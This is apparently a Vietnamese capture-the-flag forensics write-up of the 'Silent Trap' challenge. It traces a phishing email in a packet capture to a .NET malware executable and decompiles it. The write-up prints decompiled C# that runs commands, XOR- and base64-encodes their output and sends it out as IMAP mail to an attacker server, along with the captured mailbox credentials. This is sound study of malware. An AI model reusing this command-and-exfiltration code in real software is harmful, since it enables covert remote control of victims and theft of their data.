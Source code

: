# _Silent Trap_ _(FORSENSICS)_

![image](https://github.com/user-attachments/assets/4b3da520-f51c-4f57-8c1e-fa0b1c4b8d3d)

Bài cho file pcapng, phân tích và trả lời 6 câu hỏi

>1. What is the subject of the first email that the victim opened and replied to?

Follow HTTP stream 4, thấy được cuộc giao tiếp giữa client và server

![image](https://github.com/user-attachments/assets/646b0dd0-57d2-4d34-8156-46a77c7e8f9c)

Thực hiện GET request xem trước email (_action=preview) trong hộp thư đến (_mbox=INBOX) với UID 71 => opened

Sau đó xuống dưới, thực hiện tiếp GET request với email trên, yêu cầu tải 1 hình ảnh => replied

```
Answer: Game Crash on Level 5
```

>2. On what date and time was the suspicious email sent? (Format: YYYY-MM-DD_HH:MM) (for example: 1945-04-30_12:34)

Lúc đang làm thì mình ngồi xem HTTP stream 1, thấy có một GET request lấy danh sách email trong hộp thư đến, server sẽ response danh sách dưới dạng json

![image](https://github.com/user-attachments/assets/520b3411-3222-41b1-91e0-25e629433673)

Mình thấy được 1 email với tiêu đề _Bug Report - In-game Imbalance Issue in Eldoria_, Eldoria có gì đó giống với tên giải nên mình lấy luôn time của cái email đó

Nhập vô thấy correct :v
```
\nthis.add_message_row(72,{\"subject\":\"Bug Report - In-game Imbalance Issue in Eldoria\",\"fromto\":\"<span class=\\\"adr\\\"><span title=\\\"proplayer@email.com\\\" class=\\\"rcmContactAddress\\\">proplayer@email.com</span></span>\",\"date\":\"Today 15:46\",\"size\":\"13 KB\"},{\"ctype\":\"multipart/mixed\",\"mbox\":\"INBOX\"},false)
```

```
Answer: 2025-02-24_15:46
```
>3. What is the MD5 hash of the malware file?

Export object HTTP, thấy có 1 file zip, khả năng đây sẽ chứa malware

![image](https://github.com/user-attachments/assets/81b78613-8a31-4d4b-a14e-d04854d6bddb)

Save về không unzip được, thử crack cũng kh được, thì khả năng mật khẩu sẽ đc tìm thấy trong pcap

Mình tìm đến stream 8, xem cuộc hội thoại giữa client và server về email liên quan đến malware kia

![image](https://github.com/user-attachments/assets/011f5dbf-f2c0-48e1-89f2-3ea53c8d6cc0)

Mình đoán sẽ có pass unzip ở trong này, thử tìm password thì ra

![image](https://github.com/user-attachments/assets/b596a8bf-2f0a-4ef9-a61b-a850e7a674d9)

Unzip nhận được 1 file Eldoria_Balance_Issue_Report.pdf.exe

Giờ đi tìm md5 thôi, mình sử dụng Virustotal

![image](https://github.com/user-attachments/assets/329393e8-f46f-4de2-b36e-57d84adae115)

Đỏ ngàu luôn mà 😥

```
Answer: 5236676355a82362102e0d2ae5274a89cd9198e23bcf0a83609aea15fa111604
```

>4. What credentials were used to log into the attacker's mailbox? (Format: username:password)

Lúc mới vào làm, thì mình thấy có khá nhiều packet, nên có hỏi AI xem cần chú ý vào những protocol nào thì có được chỉ rằng là IMAP

Thử lọc IMAP thì có đc luôn username và password

![image](https://github.com/user-attachments/assets/1d586b09-1b7e-4e2e-b9a4-38908ecbdeff)

Còn nếu làm bản chất thì phải rev con malware kia, dùng die để xác định thư viện

![image](https://github.com/user-attachments/assets/9cdca5ac-0edb-46a6-812d-484aeb3814bc)

.Net thì dùng dotpeek hoặc ilspy để decomplie, mình dùng dotpeek

![image](https://github.com/user-attachments/assets/27364a2e-ed4f-4758-8a0e-7791a2c2b5f1)

Chương trình trên sử dụng C# để kết nối đến IMAP server sử dụng giao thức TCP và SSL/TLS

Nhìn vào hàm creds, đây là hàm lưu thông tin đăng nhập để có thể xác thực với máy chủ email mail.korptech.net

```
Answer: proplayer@email.com:completed
```
>5. What is the name of the task scheduled by the attacker?

Khi làm thì mình cần tìm câu trả lời càng sớm càng tốt, nên đã kiểu đoán mò khá nhiều, mình đã follow hết các stream liên quan đến IMAP nhưng kh thấy có task scheduled nào của attacker, nên mình nghĩ khả năng rất cao là nó nằm trong đống bị mã hóa này

![image](https://github.com/user-attachments/assets/35f1b6a7-933d-4a3f-a2d0-9d576a5f5eba)


Từ đây mình sẽ đi vào phân tích đoạn code C#, chú ý đến các hàm sau

```C#
private static void create(string text)
    {
      text = "From: " + Environment.UserName + "\r\nSubject: " + DateTime.UtcNow.ToString() + "_report_" + Program.comp_id + "\r\n\r\n" + text;
      byte[] bytes = Encoding.ASCII.GetBytes("$ APPEND Inbox {" + text.Length.ToString() + "}\r\n" + text + "\r\n");
      Task.Factory.FromAsync<byte[], int, int>(new Func<byte[], int, int, AsyncCallback, object, IAsyncResult>(((Stream) Program.ssl).BeginWrite), new Action<IAsyncResult>(((Stream) Program.ssl).EndWrite), bytes, 0, bytes.Length, (object) Program.ssl);
    }
```

Hàm create tạo một email cơ bản với thông tin người gửi, chủ đề (dựa trên thời gian và comp_id), và nội dung text. Sau đó, nó gửi email này lên máy chủ IMAP (vào thư mục "Inbox") thông qua kết nối mạng bảo mật (Program.ssl). Nội dung gửi chính là đoạn văn bản bị mã hóa kia

Tiếp theo

```C#
private static void execute(string[] commands)
    {
      try
      {
        Program.connect(Program.creds.Split(':')[2], 143);
        Program.Login(Program.creds.Split(':')[0], Program.creds.Split(':')[1]);
      }
      catch
      {
        try
        {
          Program.connect(Program.r_creds.Split(':')[2], 143);
          Program.Login(Program.r_creds.Split(':')[0], Program.r_creds.Split(':')[1]);
        }
        catch
        {
        }
      }
      foreach (string command in commands)
      {
        if (command.Contains("change_"))
          Program.change(command);
        else
          Program.create(Convert.ToBase64String(Program.xor(Encoding.UTF8.GetBytes(Program.cmd(command)))));
      }
    }
```
Hàm execute thực hiện cố gắng kết nối đến máy chủ email bằng tài khoản chính (proplayer@email.com) , nếu không được thì dùng tài khoản dự phòng (proplayer1@email.com)
- Nếu không phải lệnh change_ thì chạy lệnh, mã hóa kết quả, và gửi lên máy chủ dưới dạng email

Tiếp theo là hàm mã hóa xor

![image](https://github.com/user-attachments/assets/ac1e4ac2-67ba-4486-b534-ed3897cd25a2)

Hàm sử dụng một mảng byte cố định gồm 256 phần tử làm khóa (key)

Đến đây là mình bị stuck, vì ban đầu mình nghĩ thì chỉ là xor giữa key và data xong base64 encrypt thông thường nhưng thử rất nhiều script giải mã mà kh cho ra kết quả mong muốn
